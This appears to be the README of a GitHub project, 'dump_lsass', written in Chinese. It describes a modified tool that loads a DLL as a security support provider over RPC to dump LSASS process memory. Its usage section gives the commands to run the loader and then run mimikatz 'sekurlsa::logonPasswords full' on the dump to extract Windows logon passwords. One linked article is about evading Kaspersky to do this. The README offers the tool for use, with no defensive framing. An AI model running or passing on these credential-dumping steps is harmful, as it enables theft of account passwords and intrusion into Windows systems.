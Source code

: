 # dump_lsass
# 参考

[https://www.4hou.com/posts/y6jW](https://www.4hou.com/posts/y6jW)

[这是一篇“不一样”的真实渗透测试案例分析文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#442-%E7%BB%95%E8%BF%87%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E6%8A%93lsass%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81)

[https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)

对于代码做了部分修改，使用vs2019编译，选择x64编译
修复运行多次dump进程崩溃问题
# 使用方法
```
ssp_rpc_loader.exe Dll1.dll
dir c:\windows\temp
mimikatz.exe "sekurlsa::minidump 1.bin" "sekurlsa::logonPasswords full" "exit"
```
